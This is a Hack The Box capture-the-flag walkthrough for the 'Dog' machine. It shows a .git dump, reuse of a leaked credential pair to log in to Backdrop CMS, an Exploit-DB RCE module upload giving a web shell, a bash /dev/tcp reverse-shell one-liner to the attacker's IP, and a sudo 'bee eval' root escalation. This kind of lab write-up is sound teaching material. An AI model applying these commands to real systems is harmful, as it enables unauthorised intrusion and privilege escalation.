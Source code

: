 # 🐾 Hack The Box - Dog
![Screenshot](https://imgur.com/7MgR1KL.png)

### 🌐 Machine Information
- **IP:**  10.10.11.58
- **OS:** Linux

### 🧭 Information Gathering
- I begin by scanning the target machine using Nmap to identify open ports and running services: `nmap -A -p- 10.10.11.58 -oN nmap_scan`
![Screenshot](https://imgur.com/MNXz0uh.png)
- Nmap Results 2 open ports and 1 interesting finding: `22 (ssh)`, `80 (HTTP)` and `.git` is exposed
- To make the domain easier to access, I added the following line to /etc/hosts: `10.10.11.58 dog.htb`
![Screenshot](https://imgur.com/aBtUadM.png)
- Browsing to http://dog.htb, I found a Backdrop CMS login page
![Screenshot](https://imgur.com/K84alMF.png)

### 📂 Git Repository Dump & Initial Access
- Since the .git directory was publicly accessible, I used git-dumper to retrieve the full source code: `git-dumper http://dog.htb gitdump`
![Screenshot](https://imgur.com/m1CD9uj.png)
- Once dumped, I reviewed the contents and discovered database credentials in `settings.php` 
![Screenshot](https://imgur.com/nE3dinF.png)
- I then searched the codebase for email addresses using: `grep -rn "dog"`
- This revealed an email address
![Screenshot](https://imgur.com/hpfeNIb.png)
- I attempted to log into the CMS using the email and the MySQL password found earlier: `tiffany@dog.htb:BackDropJ2024DS2024`
![Screenshot](https://imgur.com/DKYpuzX.png)
- It worked.

### 🧩 Identifying CMS Version & Exploiting RCE
- After logging in, I navigated to the CMS status page: `http://dog.htb/?q=admin/reports/status`
![Screenshot](https://imgur.com/tPFSSoT.png)
- The version identified was Backdrop CMS 1.27.1
- Using searchsploit, I looked for known vulnerabilities: `searchsploit backdrop 1.27.1`
![Screenshot](https://imgur.com/S08xDJK.png)
- One exploit offered remote code execution (RCE). I used the script from Exploit-DB (Locate it through the path provided by searchsploit): `python3 52021.py http://dog.htb`
![Screenshot](https://imgur.com/50sfPPU.png)
- Before uploading the malicious module, I modified the module info (the file with the .info extension) for easy identification. 
- Before:
![Screenshot](https://imgur.com/XSbZoYD.png)
- After:
![Screenshot](https://imgur.com/oZEDlWu,png)
- I then manually uploaded it at: `http://dog.htb/?q=admin/installer/manual`
![Screenshot](https://imgur.com/5yAEwk2.png)
**Note:** I converted the zip file to .tar.gz, as .zip uploads were blocked.
![Screenshot](https://imgur.com/pWAoHIF.png)
- Once installed, I accessed the shell via: `http://dog.htb/modules/shell/shell.php`
![Screenshot](https://imgur.com/pdKzR0W.png)
- To get a reverse shell on my local machine i used this method:
Attacker (listener): `nc -lvnp 4444`
Target (shell): `bash -c 'bash -i >& /dev/tcp/10.10.14.9/4444 0>&1'`
**Note:** `10.10.14.9` is my ip
![Screenshot](https://imgur.com/8Dg5EWG.png)

### 👤 Privilege Escalation to User
- In `/home`, there were two users: `jobert` and `johncusack`. The `user flag` belonged to `johncusack`, but I didn't have direct access.
![Screenshot](https://imgur.com/BToevl6.png)
- I tried switching users with the database password found earlier: `su johncusack`
![Screenshot](https://imgur.com/3b388rm.png)
- It worked. After switching, I upgraded the shell for better usability: `script /dev/null -c bash`
- I then accessed the user flag.
![Screenshot](https://imgur.com/wmXeXqT.png)

### 🔐 Privilege Escalation to Root
- Running `sudo -l` revealed: `(ALL) NOPASSWD: /usr/local/bin/bee`
![Screenshot](https://imgur.com/yAoWqxL.png)
- Executing `bee` showed a PHP evaluation tool. One of its features, `eval`, allowed arbitrary PHP execution. 
![Screenshot](https://imgur.com/8qtDuGn.png)
- My initial attempt failed because it required a valid project root.
![Screenshot](https://imgur.com/t7NgCYy.png)
- After some trial and error, I found the correct usage: `sudo /usr/local/bin/bee --root=/var/www/html eval 'system("bash");'`
- It turns out I had to specify the Backdrop root directory, which is where the Backdrop CMS is located: `/var/www/html`
![Screenshot](https://imgur.com/4i9nzQS.png)
- This granted a root shell. From there, I read the root.txt and captured the root flag.
![Screenshot](https://imgur.com/thbiBzV.png)

